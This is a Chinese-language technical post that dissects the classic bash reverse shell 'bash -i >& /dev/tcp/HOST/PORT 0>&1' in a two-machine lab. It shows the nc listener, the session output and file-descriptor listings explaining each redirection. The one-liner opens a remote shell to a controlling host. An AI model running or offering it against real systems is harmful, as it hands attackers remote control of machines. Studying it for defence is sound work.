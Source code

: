 # 反弹Shell引申-bash的socket操作

参考文章

1. [Bash /dev/(tcp|udp)/${HOST}/${PORT} 分析](https://www.jianshu.com/p/80d6b5a61372)

2. [linux shell 脚本实现tcp/upd协议通讯（重定向应用）](https://www.cnblogs.com/chengmo/archive/2010/10/22/1858302.html)

本来以为bash没有 socket 操作的接口的, 没想到一次反弹shell攻击发现了这样的功能...

## 1. 示例场景

服务器A: 192.168.7.13
服务器B: 192.168.7.14

A使用`nc`监听8080端口, 模拟黑帽子的控制机.

```log
[root@k8s-master-7-13 ~]# nc -l 0.0.0.0 8080
## 这里开始阻塞
```

然后B发起反弹Shell连接, 模拟被挂马的内网服务器.

```
[root@k8s-master-7-14 ~]# bash -i >& /dev/tcp/192.168.7.13/8080 0>&1
## 这里也开始阻塞
```

然后A的bash发生变化.

```
[root@k8s-master-7-13 ~]# nc -l 0.0.0.0 8080
[root@k8s-master-7-14 ~]# ls                 ## 输入命令
ls                                           ## 注意输入命令也被当作结果返回
kubeadm-config.yaml
```

可以看到A的终端已经变成了B的界面, 现在黑帽子可以自由的操作B机器了, 当黑帽子输入exit从A机器上的B终端退出时, B机器上的反弹Shell才会结束.

## 2. 分析`-i`的作用

`bash -i`表示打开一个交互式(interactive)终端, 与创建的socket的进行通信.

尝试把`-i`选项移除, 重新测试, 变化在于反弹shell连接上控制机后, 终端提示符没有改变.

```
[root@k8s-master-7-13 ~]# nc -l 0.0.0.0 8080
## 这里开始阻塞, 反弹Shell连接后没有变化
ls                                           ## 输入命令
kubeadm-config.yaml                          ## 返回结果
```

除了这个, 还有一点需要注意: 加了`-i`的反弹Shell输出的命令也被当前结果返回了, 移除后则不会.

可以猜测, `-i`选项可以将主控机A到被控机B的标准输入也返回.

> 在主控机A的B终端上按Ctrl+C退出时, 反弹Shell进程也退出了.

## 3. 分析文件描述符

符号`>&`可以复制一个输出描述符(其实是剪切), 该符号前没有字符, 表示将调用方控制台的标准输出, 定向到打开的socket的标准输出中.

但是这里这个符号有一点特殊的涵义, 就是bash不能什么都不干就打开一个socket连接.

```
[root@k8s-master-7-14 ~]# bash -i /dev/tcp/192.168.7.13/8080
bash: /dev/tcp/192.168.7.13/8080: 没有那个文件或目录
```

正确操作起码要将socket打开为文件描述符才行, 比如`<>`和`>&`, 这个可看一下使用`exec`操作文件描述符的相关文章.

不考虑`<&`, 因为根本无法运行.

```
[root@k8s-master-7-14 ~]# bash <& /dev/tcp/192.168.7.13/8080
-bash: /dev/tcp/192.168.7.13/8080: 模糊的重定向
```

至于`<>`的作用, 还没有头绪, 先看看`>&`的分析吧, 还是比较有把握的.

主控机A

```
[root@k8s-master-7-13 ~]# nc -l 0.0.0.0 8080
## 阻塞, 等待输入命令
```

被控机B

```
[root@k8s-master-7-14 ~]# bash >& /dev/tcp/192.168.7.13/8080
## 阻塞
```

在被控机B上执行如下命令得到反弹Shell的pid, 并查看其相关的fd

```
[root@k8s-master-7-14 fd]# netstat -nap | grep 8080
tcp        0      0 192.168.7.14:59348      192.168.7.13:8080       ESTABLISHED 10738/bash
[root@k8s-master-7-14 fd]# cd /proc/10738/fd
[root@k8s-master-7-14 fd]# ll
总用量 0
lrwx------ 1 root root 64 9月   6 16:49 0 -> /dev/pts/0
lrwx------ 1 root root 64 9月   6 16:49 1 -> socket:[43335381]
lrwx------ 1 root root 64 9月   6 16:49 2 -> socket:[43335381]
```

可以看到, 该bash的标准输入没有改变, 但是其标准输出和标准错误都绑定到了打开的socket上. 

于是, 主控机A上输入的任何命令都不会得到回应, 因为socket与被控机B没有联系. 而在被控机B的终端上输入命令, 可以在A的终端上看到结果, 这是可以理解的.

在关于`exec`操作文件描述符的相关文章里提到, `>&`是用来复制(剪切)文件描述符的, 这里`>&`前面没有数值, 所以这句就是将该bash进程的标准输出与打开的socket绑定, 于是就有了上面的结果.

加上`0>&1`的目的就是为了能让该bash的标准输入也和socket绑定, 这样该bash进程就可以得到来自该socket的命令并向其写入结果了.
